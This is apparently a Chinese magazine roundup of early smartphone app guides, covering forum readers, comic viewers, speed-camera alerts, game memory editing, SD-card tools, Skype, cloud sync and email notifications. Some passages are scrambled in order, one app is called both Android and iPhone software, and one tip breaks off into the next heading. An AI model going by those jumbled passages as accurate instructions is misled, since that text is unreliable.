刚刚参加完高考的小华，最近很开心，不仅仅是 因为高考结束了，最主要的是小华的爸爸给他买了一 部新手机，这可是他最想要的安卓系统手机，以前只 在同学那玩过手机里的游戏，现在终于也有自己的安 卓手机了，和很多人一样，小华看中的就是手机有着 丰富的软件和游戏支持。

和Android手机上的论坛访问应用软件，简单说就是 一款方便用手机上论坛的软件，有了他我们就不再苦 于手机上论坛耗费流量而且排版混乱了。先来围观下大板凳的应用功能吧！看看是不是 很方便，和在电脑上上论坛一样吗？上论坛第一件事是啥？就是潜水看帖咯！打开 大板凳，找到喜爱的论坛非常方便，可以按类型查找 也可以直接搜索论坛名字，浏览过的论坛会在“我的 论坛”里有所记录，我们可以看到，里面包含了有名的 “口袋巴士”论坛和“机锋论坛”等等。

上找到相关版块和版区就可以啦！玩家自制的攻略， 心得尽收眼底！与普通论坛功能一样，软件也支持回帖和发布 新帖等功能，而且连论坛站内短消息功能也具备，有 了短消息功能我们就可以更方便地查看或者回复论 坛网友的短消息了。

对新机爱不释手的小华整天拿着手机在各大软 件和游戏论坛里逛着，慢慢地他发现，用手机浏览器 看看网页新闻还可以，如果是看论坛的帖子，真是太 费劲了，因为论坛里的每个帖子都相当于一个链接按 钮，稍有不慎就会按错，而且网页还有错版的现象。 这怎么办呢？

从推荐论坛里直接进入“口袋巴士论坛”可以看 到最先显示的是最新贴，我们可以第一时间看帖子， 抢沙发喔！进入论坛，点至版块，就可以分类查看了，玩游 戏的时候遇到问题想上论坛看攻略？好办，在大板凳

小编有话说：虽说用网页浏览器也能看论坛，但是页面排版， 浏览困难等问题把论坛与手机用户都隔绝开了，“大 板凳”这个软件很好地解决了这个问题，让在手机上 逛论坛变得舒服方便了，尽管它还不够完善，但是非 常实用，期待她的进一步成长。目前软件支持的论坛系统有 Discuz 7.* 系列， Discuz X1.5 和 PHPWind 7.5，以及PHPWind 8.3/8.5。

其实，这也是很多喜欢逛论坛的坛友比较烦心 的事情，现在好了，专门为论坛浏览而开发的浏览器 诞生了！“大板凳浏览器”，就是这样一款用于iPhone

## 利器在手 Android手机看漫画不愁

看漫画不是简单的看图片，不同人会有不同的阅 读习惯，浏览效果和速度也至关重要，所以寻找一个 真正功能人性化并且适合自己的软件确实需要花费 一番功夫，经过几个月使用N个软件的经历，笔者终 于大浪淘沙选出了最适合自己的漫画阅读器Comic Reader Mobi，下面就推荐给大家。Comic Reader Mobi支持iOS，Andriod等平台， 以下简称CRM。它支持cbr/rar，cbz/zip等压缩包格式 以及目录中的jpg，png等图片。首次运行时，需要设 置漫画文件默认目录，新添加到默认文件夹下的漫 画，需要重新关闭并打开CRM后才会显示。cbr是一种压缩文件格式，它把一组jpg，png等 图片保存到一个单独的压缩包里，常常用来保存漫

画，把它改名为rar就能用Winrar来打开，cbz和cbr类 似，使用压缩包的好处：向SD卡拷贝时，少量的大文 件要比大量的小文件速度快；如果SD卡保存了多部 图片格式的漫画，会影响到Andriod相册等能自动扫 描SD图片的软件的启动速度。CRM运行速度非常快，笔者使用的是OPPO X903手机，打开86MB的《拳皇R》全彩版压缩包不 到2秒，点击翻页不到1秒，对于小文件或者文件夹中 的图片，速度就更快了，这恐怕和它会自动在后台装 载并设置下一页有关，它会根据屏幕大小自动缩放图 片尺寸；并具有自动书签功能，会记录每个漫画文件 的最后浏览位置，下次打开漫画后可继续阅读；它既 可通过控制栏的左右箭头翻页，也可滑动翻页，滑动

翻页时的效果逼真，可以看到图片透过纸张的显示效 果。和其他漫画阅读器相比，CRM有以下两个独特 的功能：1. 双页自动切分功能：一些漫画在扫描时会一次扫 描两面内容，如果当做一个文件来观看，图片非常 小，在“设置”中打开“分割双页面”，CRM会自动将 双页切分为单页，切割后的画面和文字质量非常高。2. 放大镜功能：如果需要仔细查看图片的某一部 分，单击就可放大，还可单独放大文字部分（可在 “设置”中选择文字放大的倍数），这对于需要仔细 阅读文字的漫画来说非常有用，全屏显示整个漫画页 面，放大显示文字部分。

## Android手机电子狗 助你出行安全

现在驾车违规越来越容易被拍到了，但是要花上 千元去购买电子狗设备，似乎又不划算，现在智能手 机的GPS技术已经非常成熟，那么会不会有手机上的 电子狗呢？在Android系统下，就有这样一款电子狗软件，安 驾电子狗，该程序提供了两个版本，分别是无地图版 和有地图版，无地图版本主要是提供对电子警察的 声音提示，而有地图板，则是实时的Google地图定 位，有需要导航同时并不介意消耗流量的车友可以选 择有地图版，经过个人的使用，建议使用无地图版本 即可，因为在开车的过程中，安全起见并没有必要去 看地图。

Android版本下载地址：http://market.goapk.com/pkg/cn/safetrip.edog 使用该程序首先需要在网站进行注册，之后登 陆就可以使用该软件，程序使用简单，只需打开GPS 并放置在GPS卫星信号较好的地方（如车头），然后 开启安驾电子狗，待GPS检测到前方有电子警察时， 就会发出声音提示，如果您使用的是有地图版，那么除了声音提示 外，还提供了车辆定位。笔者对该软件进行了实际测试，并特意找了一台 装有电子狗设备的车辆进行比较，在市区行驶了大概 10公里，发现手机电子狗和专业电子狗设备同样的

灵敏，除了发出警示的时间稍有差别外，都一致的对 闯红灯电子警察全部进行了警报提示。不同的是，手 机电子狗大概在距离红灯150米左右时，发出声音提 示，在接近红灯约30米左右时，会再次发出简短提示 音。由于使用了GPS，该程序会比较耗电，在市区使 用了约1小时，就耗尽了手机30%多的电量，所以，如 果需要长时间使用，建议多备一块电池吧。最后，尽 管有值得信赖的手机电子狗看门，但是建议大家还是 遵守交通规则，安全第一。（文/广西 韩玉宁）

## 游戏难通关 帮手如你愿 手机也有“金山游侠”

小明最近迷恋上了一款Android平台上的塔防大 作：“嘻哈三国”，搞笑的画风和流畅的操作让他乐 此不疲，无奈小明水平有限，连第三个关卡都打不过 去……聪明的小明另辟蹊径，竟然在手机上直接对 游戏的金钱进行了修改，买全极品装备后轻松通关。 想知道他是怎么拿手机游戏“开刀”的吗？如今的手机游戏越来越耐玩，可惜我们的时间 总是有限的，像塔防或RPG一类的游戏，实在是没 有时间赚钱或打经验。还好，目前Android手机上也 有类似PC平台“金山游侠”的游戏修改软件了，只需 借助“八门神器”（下载地址：http://u.115.com/file/ e6krl9aw），改经验、加金钱这些操作直接在手机上 就能完成！

用较多的内存。此外，网络游戏是无法修改成功 的，因为网络游戏的数据基本都是保存在服务器 上，就算你修改了，一连接网络，数据从服务器 一更新就变回原来的了，所以请别拿八门神器去 折腾网络游戏……除了手机游戏外，“入门神器” 还可对主流的PS、MD、GBA等模拟器运行的游戏 进行修改。“八门神器”还有对应塞班平台的版 本，使用诺基亚手机的用户也不妨尝试一下。先运行“嘻哈三国”这款游戏，进入游戏的商城 界面，先记下当前战功的数值，点击手机“主页键” 返回桌面首页，再运行“八门神器”这款软件，在程 序界面的底部有虚拟的功能键区域，点击左上角的 菜单键，选中我们此次要修改的游戏，接下来就可 以在顶部的对话框中输入之前记下的战功数值了， 如果弹出询问搜索数据类型的对话框，选择自动识 别即可。接下来长按手机“主页键”键调出近期程序的窗 口，点击“嘻哈三国”图标重新返回游戏，在商城中随 便花点钱，让战功的数值产生变化。接下来通过“主

页键”切换回“八门神器”，在对话框中重新输入游戏 中变化后的战功数值，点击搜索按钮程序就会自动 筛选数据，笔者很幸运，还没搜索呢，搜索结果中的 第二项数值就自己发生了变化，从而就此确定它就是 “嘻哈三国”游戏战功值所对应的内存地址。点击这个结果，在弹出窗口的“Value”的对话框 中输入你想获得的战功数值，点击确定按钮后你就 会发现刚刚内存地址的数值已经变成“Value”所对 应的数据了，返回游戏，看看游戏的战功值是否变成 修改后的数据了？现在咱也是有钱人了，随便买装备 吧，游戏通关指日可待！小提示：有些游戏运行时，长按主页键是无法调出当 前运行的程序窗口的，此时可以单击主页键返回 桌面，再长按主页键切换程序，千万不要通过 “返回键”回到桌面，因为很多程序将返回键默认 为退出游戏的快捷键，退出游戏后你可就搜不到 任何数据了哦。

小提示：“八门神器”是通过修改正在运行中的游戏 的内存数据，达到修改游戏属性的目的，属性对应 的确切内存地址是通过游戏属性的变化来定位 的，所以必须经过多次搜索才能准确定位，否则 无法直接修改。尽量避免第一次搜索0，这样会占## 简单还免费 为你的手机存储卡提速

刘丹最近新买了一部HTC Incredible S (G11)手机，机身可用的存储空间只有700MB左右。想给手机配一个大容量SD卡吧，却又担心商家拿低速卡充当高速卡卖。那么，有什么方法可以快速判断出存储卡的速度等级呢？

如果你的手机也是Android系统，可以借助“SD card speed test”（下载地址：http://u.115.com/file/dnh95ns）这款软件测试存储卡的速度。只需将新买的存储卡插入手机，再在手机上安装并运行这款软件，点击“开始测试按钮”即可。稍后软件会自动测试读写速度，大约2分钟后就能得出测试成绩。以笔者的金士顿8GB卡为例，测试结果为2MB/s和27MB/s（写入/读取速度），仅为Class2标准，并非高速卡。以后买存储卡前先在手机上安装好此软件，挑选存储卡时就不必担心上当受骗了。

目前存储卡很便宜，组装、假货横行，包装和卡上的标识信息根本不可信。

对于笔者这种已经使用上Class2低速卡的用户，有没有什么方法可以给存储卡提速呢？答案自然是有的，“SD卡速度增强器”（需要Root权限，下载地址：http://u.115.com/file/aq7af59w）就可以通过修改存储卡的缓存配置信息来提升读取速度。设置很简单，在运行“SD卡速度增强器”后，只需将“值”一栏的数值调整到2048kb，勾选“每次重启时设置”，再点击带箭头的确定按钮即可。

用“SD卡速度增强器”提速后，笔者又重新测试了一遍“SD card speed test”，写入速度没有提升，仍然是2MB/s，但读取速度则提升到了37MB/s，还是有一定效果的。既然软件为存储卡提速免费，又没有什么副作用，何乐而不为呢？

## 用魔秀 做自己的个性手机主题

玩智能手机的，就要玩出自己的个性来，比如这手机主题，就能自个打造独一无二的程序，怎么弄？听我一一道来。

登录魔秀主题网站http://www.moxiu.com/，魔秀号称国内最大在线免费手机主题制作、下载、交流的Web2.0社区平台，注册用户后便可进入制作主题页面。

在页面上选手机品牌和型号后进入制作，魔秀支持50多个品牌，600多种机型，首次使用建议采用向导模式，点击后上传待机背景。对不满意的图片可以进行剪切处理，调整后自动生成适合手机屏幕分辨率的图片。

在向导模式下，只能进行待机背景和菜单背景两项制作，手头无适合的菜单背景，建议上网搜索自己喜欢的图片类型，但大小不能超过1M。制作完成后点击发布，系统会自动生成*.nth格式的主题文件，根据手机型号不同，主题文件格式亦有变化。

点“确定”出现发布成功窗口，把自动生成后缀为nth的主题程序，下载到自己的手机上，设置后就能用啦！

如果涉及隐私照片的话，最好选择私有，即不发布到网页上显示出来。

高手级别的用户可进入更细层次的制作，在场景详细列表中有各种选项的下拉菜单式，右侧是预览区域，只要你有才华和创意，专属于自我的个性主题完全随心打造。特别优秀的作品还可以传到大型网站上，别人想下载你的，呵呵，要付费才行，这也是知识产权问题哦。

## 告别“漏网之鱼” 所有程序都能“一键退出”

大鹏没事最喜欢“鼓捣”手机上的程序，但用不了多久手机运行速度就会明显变慢。那么，究竟是什么吃掉了手机的资源呢？

很多Android系统的游戏或者软件本身并没有提供退出选项，按返回键或主页键虽然看似退出了程序，但实际上该程序仍然在后台运行并耗费着资源。大鹏遇到的就是这个问题。此时，我们可以借助“Quick Exit”（一键退出程序，下载地址：http://u.115.com/file/clqoxfr6）让所有程序都具备“退出”功能。

在手机上安装并运行“Quick Exit”，软件主界面提供了多种快速关闭程序的方式。首先建议勾选“在任务栏显示快速退出按钮”，这样在运行可以显示状态栏的程序（软件为主）中，我们可以通过下拉屏幕顶端的状态栏选中“快速退出”从而关闭当前程序。你要是觉得状态栏的提示不美观，则可以勾选“隐藏状态栏”的选项。

而游戏大多是全屏显示，没有状态栏显示。此时“按住搜索键时启动快速退出”这个选项就派上用场了。只要你的手机有搜索快捷键（相机键也可），勾选此选项后搜索键将兼顾启动“搜索”和启动“一键退出程序”的双重作用。长按搜索键后会弹出运行具体程序的对话框，点击“快速退出（Froyo+）”按钮后程序就彻底关闭了。为了防止误操作，“退出程序前确认”这个选项最好也能勾选上，这样在关闭程序前，软件会给出提示信息。需要注意的是，使用Android 2.2系统的手机运行Quick Exit这款软件需要破解Root权限，而2.1以及以前的版本则无需Root。

## 涂鸦+语音 微博还能这样玩

小林可算是个微博达人了，自从博客诞生，他就经常在上面发表自己的“大作”，直到现在的微博大热，小林更是每天都开着电脑或者手机泡在上面。可是，对于很多微博控来说，只能发布文字和图片似乎略嫌单调，于是新浪微博在近期推出了语音微博服务。更让小林兴奋的是他的偶像王菲还通过新浪语音微博录制了一段京味十足的歌谣发布在微博上。

但是让小林感到奇怪的是，他的微博好友小丽的微博里不但有很多语音微博，而且发布的时间间隔都很短，难道小丽有什么秘技？问了小丽后才知道，原来小丽用了内置新浪微博功能的“米聊”。

安装了“米聊”后，打开“新浪微博小助手”将米聊与新浪微博进行绑定。然后在界面上按住“按住说话”按钮，就可以录制60秒内的语音，录制完成后，点击发送就可以发送至新浪微博了。在新浪微博上点击“播放音乐”按钮，就可以收听语音微博了。除了快速发布语音微博，米聊更支持涂鸦传情功能。

在软件对话页面中打开涂鸦按钮，用手写入想说的字，然后进行涂鸦或者直接对图片进行涂鸦，完成后通过短信或者微博直接发送就可以了。通过小编的体验，涂鸦传情主要表现就是为用户提供自由涂鸦、照片涂鸦等功能，并可通过米聊即时发送给好友，让好友之间的沟通交流更具趣味性、可玩性；也可通过米聊的新浪微博小助手发布创意微博；或者通过邮件、短信、彩信等多种方式分享给好友。

可是用过语音微博后，小林才发现，语音微博使用起来太麻烦了。首先，手机号码要与微博绑定，而且还需要通过拨打专门的号码进行录制。录制完成后，不可直接挂掉电话，需等待提示后才能将声音发送。有了米聊的此功能，你就可以在自己的微博上发布创意微博了。

## 切换So Easy 多任务操作的“最佳助手”

## 界面不美观 短信 拨号 联系人一站式美化方案

在朋友的忽悠下，小赵购买了一部HTC Desire HD手机。HTC特有的Sense界面效果虽炫，但联系人、拨号和短信这三大最常用的程序界面却格外简陋。尤其是看彩信时还得一页一页翻阅，好不麻烦。如果你和小赵一样希望这三大程序界面可以更美观、更人性化，不妨自己动手给这些程序“扮靓”吧。

### 关闭默认短信提示

当来一条短信时，友录通讯录和系统自带的短信程序的铃声、振动提醒都会启动，也就是说你将听到两段短信铃声。界面顶部的信息栏也会出现两个短信提示信息。如果你不想让两个程序互相干扰而出现短信重复提醒的问题，就需要手动关闭系统自带短信程序的提醒设置了。在系统自带的短信首页点击手机的菜单键，依次进入“设置→通知”菜单，关闭“已接收通知”、“已发送通知”等一切的提醒设置。今后再来短信时就不会出现两个短信程序“打架”的现象了。

### 替换默认启动程序

HTC Sense界面底部有进入“电话”的按钮，但即使你安装了类似友录通讯录这种第三方拨号软件，这个按钮默认的启动程序还是系统自带的拨号程序。接下来我们所需要做的就是将这个功能键默认的拨号程序替换为友录通讯录。长按这个按钮，稍后会弹出“使用以下内容完成操作”的提示框，点击友录通讯录的图标即可。如果你嫌麻烦，勾选“默认用于执行此操作”，让友录通讯录成为默认的拨号程序。

### 细节功能更人性

如果手机不幸丢失或损坏，除了手机本身的价值以外，内部存储的宝贵联系人信息也会随之而去。通常大家会用“Gmail”或“QQ助手”等软件将联系人信息备份在网络上。而友录通讯录本身也支持将若干个账号的通讯录资料保存到网上，同时支持跨平台的通讯录资料互通。如果你除了Android手机以外还有诺基亚塞班系统手机或iPhone，手机之间的资料都是可以共享的哦。

小提示：

最新版友录通讯录加入了“友录信使”功能，Android、Symbian、iPhone三大主流平台可以互发信息、发图片、发音频，还可以支持群聊。发送友录信息无需短信费用，只需要很少量的网络流量即可。

## 手机号汇款 轻松又安全

钟老板的生意一直不错，客户由省内延伸到省外，每天都有来自全国各地的定单和打款业务。生意红火的同时，钟老板却有了隐忧和不如意之处。

小提示：什么是手机号汇款？

手机号汇款是指收款人将银行账户与手机号绑定，汇款人通过网上银行、手机银行，仅需输入收款人手机号码、姓名即可办理汇款业务。我们以工商银行为例，看看如何实现手机号汇款。

### 网上银行绑定

首先，我们需要开通工商银行的个人网上银行服务。登录个人网上银行后，选择“转账汇款功能”→“绑定收款关系”→“选择绑定的账户”→“输入绑定的手机号码”，此时会收到验证码，将手机中收到的验证码转发至95588，确认成功后，即可使用手机号汇款业务。

### 手机银行（Wap）绑定

登录手机银行（WAP），选择“转账汇款功能”→绑定手机号收款→选择绑定的账户→输入绑定的手机号码。在手机银行“绑定手机号收款”中绑定账号与手机号后，将手机中收到的验证码转发至95588，确认成功后，即可使用手机号汇款业务。

小编有话说

除工商银行外，交通银行、建设银行、浦发银行也开通了手机号汇款功能。随着智能手机的广泛应用，多家银行也顺势推出适合在IPHONE的O.S系统和ANDROID系统上所使用的手机银行应用软件。在手机银行业务中，向手机号汇款也成为一项较为广泛的应用。

## 电话视频远胜Facetime Skype手机客户端全攻略

上星期的一天早上笔者醒得有点晚，所以出门走得特别急。刚关上门的一刻才发觉自己忘了带钥匙。转身敲门，敲了好几分钟屋内的室友也没有听见。正想打电话叫醒他时才发现手机也忘了带。此时笔者真的是差点都哭出来了，不过突然灵机一动，背包里不是有个iPod touch吗？使用里面的Skype软件也可以拨打电话。赶紧拿出来，连上家里的WiFi，立即就把室友给叫醒了。

那么Skype还有哪些主要特异功能？和Facetime的视频通话相比有什么优势？下面就简单列举一下：

-   1. Skype分成两种模式，免费和收费。免费的仅限于Skype用户之间，也就是通话双方（或者进行电话会议的多方）必须都安装了Skype软件。而收费的模式仅限Skype用户给座机或者手机拨打。
-   2. 价格便宜，具体费率参见下表，可以看到其越洋电话的通话费用也仅合一毛多钱一分钟，而在其国内代理商TOM公司的网页（http://skype.tom.com/）上还有各种更优惠的套餐，最低仅需一分钱一分钟，特别适合电话多的淘宝店主和有亲友在国外的朋友使用。
-   3. 支持平台极为广泛，电脑上Windows、Linux和MAC系统均有Skype的不同版本，各种手机和智能掌上设备也几乎全有了，它们之间都可以免费互相通话。而苹果的Facetime则仅限苹果的手机和电脑之间通话。
-   4. 视频通话的功能方便，苹果的Facetime视频通话需要激活等步骤，在国内使用还往往有激活失败的现象。Skype的iOS版和Android版也有视频通话功能（Symbian版没有），只需要登录账号，拨打要通话的好友账号即可。
-   5. Facetime只能通过WiFi视频通话，Skype则可以使用手机的3G上网流量，如果你有3G包月就会发现不光方便，而且比3G手机的视频通话要便宜N倍。
-   6. 不过需要注意的是，Skype的原理是网络电话，实际通话时往往会感觉有一点延迟的现象，这一点就不能和传统电话相比，但总体还是可以接受的。

### Skype的安装

国内的朋友想要使用Skype的话注意一定要使用国内专门的版本。由于中国互联网的特点，如果你使用国外的原版，在连接服务器时可能会很慢。其国内版本的各平台客户端下载地址为：http://skype.tom.com/download/，iOS版则可以在APP Store中搜索并免费下载到。

### 使用Skype的注意事项

下载并安装到手机上之后，有一个细节需要注意，如果你希望Skype上的朋友随时拨打你，就需要使其在后台运行，同时需要保持手机一直联网。这样显然会耗费更多的电池电量和上网流量，如果你并不需要朋友随时能拨通你的Skype，可以将其完全关闭。

Symbian版的界面中有一个“隐藏”按钮，点了它就是后台运行，而点“退出”的话就是完全退出软件了。Android版和iOS版如果直接按手机的HOME键返回桌面，就是让Skype后台运行，要想完全退出则也要找到“退出”按钮注销登录才行。

Skype手机版的界面就非常简单了，和QQ等聊天工具差不多，也整合了手机的功能。可以在上面看到在线的Skype好友列表，也可以直接调用存在手机中的电话号码。如果你想视频通话，选择一个在线的Skype好友，就出现视频通话的选项了。

| 通话目的地 | 每拨打1分钟实际扣费时长 | 每分钟约合人民币 |
| --- | --- | --- |
| 大陆 | 1分钟 | 0.11元 |
| 香港 - 固话 | 1分钟45秒 | 0.19元 |
| 香港 - 手机 | 1分钟 | 0.11元 |
| 澳门（含手机） | 6分钟 | 0.66元 |
| 台湾 - 固话 | 1分钟15秒 | 0.14元 |
| 台湾 - 手机 | 6分钟 | 0.66元 |
| 美国（含手机） | 1分钟30秒 | 0.17元 |
| 日本 - 固话 | 2分钟45秒 | 0.30元 |
| 日本 - 手机 | 1分钟 | 1.43元 |
| 韩国 - 固话 | 2分钟45秒 | 0.30元 |
| 韩国 - 手机 | 6分钟 | 0.66元 |

## 移花接木 帮助诺基亚手机解放红白键

小张的诺基亚5800W手机还没用一年，底部的白键就有些不灵敏了，按下去偶尔会没有反应。偏偏小张又是一个网络达人，需要不间断地在QQ、UC或微博这类软件间切换，那么，有什么方法可以实现便捷的程序切换，同时又不需要使用物理功能键呢？

像5800W、5230这类诺基亚S60 V5系统的手机，想在程序间切换都需要用到红键或白键，频繁使用势必增加这类物理按键的负担，久而久之就容易出现按键失灵或者掉漆的问题，其实只需借助“智能助手”（SmartSettings，下载地址：http://u.115.com/file/bhf7mk#7，需签名）这款软件，简单几步设置后就能彻底解放5800W这类手机的红白键。

很多诺基亚手机屏幕上方都有一个触控式的多媒体快捷键，而智能助手这款软件则可以帮助我们修改这个快捷键默认启动的程序列表，可以将其打造为类似Windows开始菜单的快捷键，在手机上安装并运行智能助手，进入第三行“开始菜单”的设置栏，在“应用程序”里就可以自定义多媒体键默认启动的程序列表了，比如我们可以添加通讯录、便捷呼叫、功能表、QQ、微博、文件管理等程序（还可以添加联系人），以后只需按一下多媒体键，就可随时在上述程序间切换，屏幕下方的三个物理按键基本就可“退休”了，最重要的是，无论手机正处在任何界面，都能迅速打开多媒体键，使用自行设置的所有快捷功能，怎么样，有了智能助手相帮，今后再也不用为物理键的寿命和品相担心了！

## 无论在何处 数据“云同步”

文峰是一家饮品公司的市场调查员，由于要调研饮品在各地的销售情况，因此经常在全国各地之间“穿梭飞行”，而“云”概念的出现，也让他这种“空中飞人”的工作变得轻松了许多。

以前，文峰每晚都要将一天的调查结果统计完后发送邮件给公司总部，总部有了新的销售政策也是通过邮件来告知文峰，而现在，文峰将3G网络和酷盘软件很好地应用结合了起来，在公司总部的服务器上安装了酷盘同步文件夹，随时随地就可以和总部进行数据的同步，再也不用每晚熬夜进行数据统计了。

以往我们的手机和电脑数据同步，通常是指对本地存储数据的互相同步，但如果出差在外，想要同步读取异地电脑上的数据很难实现，如今，最简单的办法就是，使用一部智能手机（Android或苹果系统），再利用酷盘来帮我们搞定。

小提示：酷盘是一款可以跨平台实现数据存储、访问、分享的在线网盘，我们可以通过网页、PC客户端、手机端等不同方式来访问和使用它，比如预计出差后会用到家里电脑上的某些数据，拷贝至传统U盘携带又怕丢失时，就可以事先在家里电脑上通过网页或PC客户端方式，将您的照片、音乐、资料统统备份到网络，这样我们在任何地方就都可以随时访问。

### 用酷盘实现本地数据云存储

登录酷盘官网下载PC客户端程序，本地安装PC客户端快完成时，根据提示定位需要同步的目录，并勾选所有项目，定义好的同步目录将作为一个存储目录使用，之后将所有需要同步的文件拖到此存储目录中，即可实现与网络的即时同步。

在PC客户端中同步数据完成后会显示为“√”，正在同步的数据会显示一个环绕图标，酷盘最大提供15GB网络存储的免费空间，而且存储时间、文件存储格式都无限制。

### 异地移动读取云存储数据

当出差在外又无法使用电脑时，利用一部Android或苹果系统的手机，下载安装好相应版本的手机端酷盘，异地移动读取云存储的数据就会非常轻松，以苹果手机为例：

酷盘iPhone版下载地址为：http://itunes.apple.com/cn/app/id405005472?mt=8

步骤1：通过苹果应用商店免费下载安装酷盘iPhone版，启动后先以注册账号登陆，如果是第一次使用也可以在这里用邮箱来免费注册。

步骤2：进入酷盘iPhone版界面，之前在PC客户端同步的所有数据都能方便的读取到，通过右上方“编辑”按钮，手机端也能实施创建存储文件夹、复制或移动文件等操作，而且，在手机端的所有操作也会即时同步到PC客户端、网页上！

小提示：通过手机拍摄的照片或视频也可以很方便的上传至酷盘服务器保存，而且在手机端也能方便的查看到已使用的酷盘免费空间、设置上传图片质量、升级免费空间容量等等，使用起来就如在电脑上操作一样方便。

小编有话说：通过以上介绍不难发现，酷盘的跨平台云存储服务是相当给力的！就如同在使用一个硕大的移动硬盘一样，不管是手机、电脑都能很便捷地实现数据同步共享，只需将文件复制到指定文件夹，酷盘客户端将自动帮您完成同步过程。另外值得一提的就是15GB超大免费空间，这也是其他同类服务所不具备的。

## 迷你卡拉OK 随时随地K歌

同事下周又要组织去K歌，可是对于小华来说，他却觉得很痛苦，因为平时对音乐不感冒的他，很多流行的新歌曲都不会，有的根本听都没听过更别说唱了，虽然有的歌曲能跟着哼唱两句，可是真正唱的时候却怎么也跟不上原调，白天上班忙工作，晚上回家虽然有时间可是家里没有音响设备，咋练呢？

无意间，小华在逛安卓市场时发现了一款“迷你卡拉OK”软件，他不禁暗自高兴，这不就是为他这样的人设计的吗？

迷你卡拉OK是安卓平台上的一款使用普通MP3文件的卡拉OK播放器，有了它，你只需要有对应的MP3文件，就可以对着手机唱卡拉OK了！有了它你不再需要寻找特殊格式的KTV歌曲，也不再需要不厌其烦地搜索歌词文件，迷你卡拉OK帮你搞定一切。

软件最核心的功能就是可以将MP3中原声唱歌的声音消除，只留下背景音乐，点击界面中的“消除原唱”即可打开或关闭该功能。

对于不熟悉的歌曲，你肯定需要歌词的帮忙，软件的歌词自动下载功能，就可以帮你解决这一问题，歌词会随着音乐的播放同步地滚动，如果本地没有对应歌词，会自动从网上下载歌词，如果自动下载的歌词不对，您还可以通过点击下载按钮手动下载歌词。

有了背景音乐，有个歌词，点击软件上的“打开话筒”按钮，我们就可以大声歌唱了，不过需要特别提醒的是，在点击“打开话筒”时，最好插上耳机，要不然可能会把播放出的声音混到麦克中去，或者，你可以把话筒音量调小一点，当然你也可以关闭话筒唱卡拉OK。

## 巧妙设置 邮件到达免费通知

随着网络的发展，大家越来越依靠电子邮件进行联系了，合同、投稿、给老师发的电子作业，有时候这些邮件的回复信息可是耽搁不得呀，可是如何随时随地知道邮件到达呢？使用邮箱邮件到达手机短信通知，花钱不说还要找地方上网，使用移动公司的push mail，虽然可以及时接收邮件，但是移动公司每月要收取一定的费用，如果你使用的是android手机，巧妙设置之后，邮件到达不但免费通知，而且还能随时随地收发邮件，需要告诉大家的是，即使你使用的邮箱不是Gmail，也能够正常的使用，只要邮箱支持离线收信即可（绝大多数邮箱都支持）。

-   1. 设置网络。如果大家使用的是移动网络，选择“设置”来开启移动网络，需要大家注意的是，移动网络的接入点需要设置为cmnet，接入点为cmwap无法正常收发邮件，（注意两种连接方式不同，资费有的地区区别很大。）如果使用的Wi-Fi，直接开启即可。
-   2. 设置账户。Android操作系统除了有Gmail外还包含了一个强大的电子邮件客户端，支持POP3和IMAP协议，直接在主功能表中单击Email图标（注意不是Gmail图标），即可打开这个客户端，然后单击菜单键，选择“更多”→“新建账户”，进行账户设置，选择邮件提供商“其它（POP3/IMAP）”，输入完整的邮箱用户名和邮箱密码，点击“下一步”，进入接收邮件服务器设置，此时，需要准备好邮箱的pop3地址和smtp地址，如新浪免费邮箱(smtp)服务器的地址为：smtp.sina.com，收信(pop3)服务器的地址为：pop.sina.com，在pop服务器输入pop.sina.com，单击“下一步”，系统会自动进行服务器有效性的检查，如果检查通过，就完成pop服务器设置，进入smtp服务器设置，对smtp服务器设置完成后，就完成了收发邮件的设置，此时就可以正常的收发邮件了。
-   3. 定时自动检查邮件。单击菜单键，选择“更多”→“设置”→“发送及接受”→“设置下载频率”，对下载频率的各个选项可以进行设置，这里需要根据自己情况灵活进行设置，假如有一份紧急的商业合同，需要随时收取邮件，那么可以设置7×24小时每5分钟检查一次邮件，如果不想晚上被打扰，可以设置非高峰时段手动检查下载即可，需要注意的是，检查邮件消耗一定的流量，检查越频繁，流量消耗越大，如果加上收发邮件的流量，总流量可能很大，因此建议大家根据自己的情况选择使用合适的包月套餐，笔者选择的是动感地带MO套餐，自带100M免费流量，完全能够满足日常浏览新闻、收发电子邮件的需要。
-   4. 邮件到达通知。单击菜单键，选择“更多”→“设置”→“通知设置”，在这里，可以根据需要开启电子邮件通知、通知音、振动等，如果选中“开启电子邮件通知”，电子邮件到达后仅仅屏幕左上角出现电子邮件图标通知，没有辅助的声音或者振动，如果喜欢邮件到达进行声音或者振动提示，必须选中通知音或振动选项。

通过以上设置，就完成了邮件到达免费通知，此时，无论你在哪里，手机都会通知您邮件到达，可以随时随地收发每一封邮件。

（文/赵建超）

## 桌面Ndesk 挑战iPhone桌面

相信凡是玩过苹果和安卓系统的朋友都对它的桌面图标可以左右侧滑、自由交换图标位置功能记忆犹新，看着自己的塞班系统爱机真有点郁闷又羡慕。如果你也有同样的烦恼，那就赶快用Ndesk这款软件动手改造一下吧！

安装运行该程序后，我们可以看到我们手机中的所有程序图标就全部显示到桌面上，这时想要找寻并运行某一个程序，只需用触控笔按住手机屏幕左右滑动找到该程序图标直接点击即可。虽然手机中所有程序的图标都可以在桌面Ndesk中找到，但是这些图标显示的有些凌乱繁杂，为了使桌面Ndesk更好的为我们服务，接下来我们要对桌面Ndesk进行一下设置。

## 分类管理程序很给力

运行桌面Ndesk后，点击设置图标按钮打开软件设置对话框，然后找到并点击文件夹设置右侧的“设置”按钮，接下来在打开的窗口左下角点击“添加”按钮，进行添加新文件夹的操作，输入文件夹名称，常用工具后确认即可完成添加新文件夹。如果你要添加多个文件夹可以重复刚才的操作即可。

添加完成新文件后返回桌面Ndesk主界面，这个时候我们可以看到桌面Ndesk主程序界面多了几个我们刚才添加的文件夹。接下来我们要做的就是把同一类别的程序图标移动到同一个文件了。首先用触控笔按住需要移动的图标，按住后先不要移动，等待两秒钟后，我们可以看到所有的桌面图标都会跳动起来。

此时不要松开触控笔，把该图标直接拖动到文件夹上方稍等一下，就会把该图标移动到这个文件夹内了。等你把所有的程序图标都移动到不同的文件夹后，你就会感觉到原来你的手机图标也可以这么井井有条。

## 小提示：

如果想要把某一个程序图标和另外的图标交换位置，只要按住需要移动的图标等待两秒钟后，看到桌面所有图标都跳动起来后，把该图标移动到需要替换的图标上面两秒钟后，另一个图标会自动移动到该图标位置上。

## 一键加解锁

